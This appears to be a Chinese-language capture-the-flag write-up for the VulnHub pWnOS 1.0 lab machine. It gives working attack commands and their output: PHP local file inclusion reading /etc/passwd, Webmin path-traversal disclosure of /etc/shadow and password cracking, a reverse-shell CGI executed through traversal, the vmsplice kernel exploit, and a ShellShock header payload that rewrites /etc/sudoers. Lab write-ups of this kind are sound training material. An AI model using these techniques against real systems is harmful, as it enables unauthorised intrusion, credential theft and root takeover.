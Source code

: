 # pWnOS: 1.0

2024-4-24 https://www.vulnhub.com/entry/pwnos-10,33/

difficulty: intermediate

## IP

192.168.10.175

## Scan

Open Port -> 22,80,139,445,10000

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey:
|   1024 e44640bfe629acc600e2b2a3e150903c (DSA)
|_  2048 10cc35458ef27aa1ccdba0e8bfc7733d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: Site doesn't have a title (text/html).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

先看看 smb 上有什么暴露出来信息：

```
enum4linux -a 192.168.10.175

Sharename       Type      Comment
---------       ----      -------
home            Disk      Home Directory for vmware User
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service (ubuntuvm)
```

连接 SMB 出现错误提示，不能进一步查看：

```
smbclient -N //192.168.10.175/home

Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED
```

暂时放弃 SMB 这个方向，转向其他 2 个 web 服务。

对于 http://192.168.10.175/ 页面上，是一个可以提供帮助的页面，进行目录扫描，发现 2 个目录 /index1 和 /index2，访问 http://192.168.10.175/index1.php 时出现了有趣的提示：

```
Warning: include() [function.include]: Failed opening '' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/index1.php on line 18
```

看样子是 URL 中的某个参数没有设置，导致 include 时出现了问题。

访问 http://192.168.10.175/index1.php?help=true&connect=true 时，页面是正常的，说明 include 需要的参数不是 help 就是 connect。当 connect 为空时，就出现了 include 错误的提示。

让我们直接访问 http://192.168.10.175/index1.php?help=true&connect=/etc/passwd ，就直接能看到了 /etc/passwd 中的内容，发现几个有用账户名：

```
root:x:0:0:root:/root:/bin/bash
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```

在尝试用 php 包装器，读下 index1.php 和 index2.php 的代码，看看有什么内容：

http://192.168.10.175/index1.php?help=true&connect=php://filter/read=convert.base64-encode/resource=index1.php

```
<?php
//if($_GET['help'] == 'true'){
    include('ssiaddon.php');
//}

if($_GET['connect'] != 'true'){
    include($_GET['connect']);
}
?>
```

index1.php 中有一个注释的页面：ssiaddon.php，或许还存在，读取后没发现什么有用信息；index2.php 中也没什么有用信息。

尝试能否能远程 http 文件包含 kali 上的 php web 后门代码，发现不行，应该是 php 中相关 allow_url 参数没有打开。尝试能否找到目标机器上的日志目录，然后包含日志，在日志中植入 php 后门代码。web server 是 Apache，先查看下配置文件，看看日志文件的配置目录：/etc/apache2/apache2.conf ，发现其中配置的日志级别为：LogLevel warn，导致普通日志文件没有记录。

在这个 80 的 web 服务上没有发现其他的有价值信息了，尝试其他路径。

看看另外一个 Webmin 10000 端口的服务，由于我们没有账号和密码，所以不能登录。Webmin 存在多个漏洞，让我们尝试看是否能利用，使用 msf 中的 admin/webmin/file_disclosure 对重要文件进行读取，先尝试读取 /etc/shadow ：

```
RPATH    /etc/shadow       yes       The file to download

root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
```

使用 john 进行爆破，尝试得到明文密码：h4ckm3 (vmware)，进而使用 ssh 登陆：

```
ssh -oHostKeyAlgorithms=ssh-dss,ssh-rsa vmware@192.168.10.175
```

登陆后，继续进行系统枚举，在 /home/obama 中有一个.ssh 文件夹，不知道其中有没有 ssh 密钥，让我们使用上面 msf 中的 exploit 继续去尝试读取：

```
set rpath /home/obama/.ssh/id_rsa
```

通过 ps 查看，发现 webmin 是通过 root 用户启动的，是否能找到 webmin 的配置文件，获取到用户名和密码进行登陆，通过查找得知了 webmin 的用户配置文件的信息存储在：/etc/webmin/miniserv.users，继续用上面的 msf 中的 exp 去进行读取：

```
set rpath /etc/webmin/miniserv.users
run

admin:$1$XXXXXXXX$8y5sgW4DoOQjHB7V9K4/G.:0
```

但是 rockyou 中没有匹配的密码，爆破失败。

## cgi 执行提权

在尝试寻找 webmin 的 RCE 执行漏洞，前面的漏洞利用，发现了 webmin 可以包含文件，由于 webmin 是由 perl 语言编写的，所以只要我们把 perl 反弹代码存储到文件中，然后去利用文件包含漏洞去包含这个文件，代码就会被执行，将 perl 的反弹代码放到目标机器的 /home/vmware/rev8888.cgi 文件中，然后访问下面的文件包含链接：

```
curl 'http://192.168.10.175:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/home/vmware/rev8888.cgi'
```

在我们的 kali 上进行监听，最终得到了反弹的 root shell：

```
# id
uid=0(root) gid=0(root)
# cd /root
# ls -al
total 28
drwxr-xr-x  4 root root 4096 Jun 12  2008 .
drwxr-xr-x 21 root root 4096 Jun 10  2008 ..
-rw-r--r--  1 root root  775 Jun 20  2008 .bash_history
-rw-r--r--  1 root root 2227 May 15  2007 .bashrc
-rw-------  1 root root    0 Jun 11  2008 .mysql_history
-rw-r--r--  1 root root  141 May 15  2007 .profile
drwx------  2 root root 4096 Jun 11  2008 .ssh
drwxr-xr-x  2 root root 4096 Jun 12  2008 keys
```

## 内核提权

同时也可以使用内核漏洞进行提权，目标机器的内核版本为：2.6.22，通过搜索，可以使用如下的代码：

```
Linux Kernel 2.6.17 < 2.6.24.1 - 'vmsplice' Local Privilege Escalation (2) | linux/local/5092.
```

下载到目标机器，编译执行：

```
vmware@ubuntuvm:~$ gcc 5092.c -o 5092
vmware@ubuntuvm:~$ ./5092
----------------------------------
 Linux vmsplice Local Root Exploit
 By qaaz
-----------------------------------
[+] mmap: 0x0 .. 0x1000
[+] page: 0x0
[+] page: 0x20
[+] mmap: 0x4000 .. 0x5000
[+] page: 0x4000
[+] page: 0x4020
[+] mmap: 0x1000 .. 0x2000
[+] page: 0x1000
[+] mmap: 0xb7e54000 .. 0xb7e86000
[+] root
root@ubuntuvm:~# id
uid=0(root) gid=0(root) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),104(scanner),111(lpadmin),112(admin),1000(vmware)
```

最后看下，为什么文件包含那里不能直接包含.pl 的脚本，查看 webmin 的配置文件 /etc/webmin/miniserv.conf ，看到其中有一行 denyfile=\.pl$ ，估计是这里导致包含.pl 文件时，出现了：Error - Access denied to，那能否包含其他后缀的文件，如.txt ，进行尝试，发现.txt 的文件直接是显示的文件内容，没有对 pl 代码进行解析。所以只能把 shell 文件的后缀名改为.cgi。

目标靶机的 base 版本较低，小于 4.3 的可能存在 ShellShock 漏洞，让我们进行测试看是否存在：

```
vmware@ubuntuvm:~$ env x='() { :; }; echo "VULNERABLE TO SHELLSHOCK"' bash -c date
VULNERABLE TO SHELLSHOCK
Thu Apr 25 01:19:23 CDT 2024
```

表明存在 ShellShock 漏洞。使用 nikto 对 10000 端口进行探测，发现有 cgi 执行，那么我们就可以利用 ShellShock 执行我们的特殊代码：

```
vmware@ubuntuvm:~$ echo '#!/bin/bash' > test.cgi
vmware@ubuntuvm:~$ chmod +x test.cgi

curl 'http://192.168.10.175:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/home/vmware/test.cgi' -H 'User-Agent: () { :; }; /bin/echo "vmware ALL=(ALL)NOPASSWD:ALL" >> /etc/sudoers'
```

这时 vmware 就有了以 root 身份对所有命令的免密执行权限：

```
vmware@ubuntuvm:~$ sudo -l
User vmware may run the following commands on this host:
    (ALL) NOPASSWD: ALL
vmware@ubuntuvm:~$ sudo /bin/bash
root@ubuntuvm:~# id
uid=0(root) gid=0(root) groups=0(root)
```
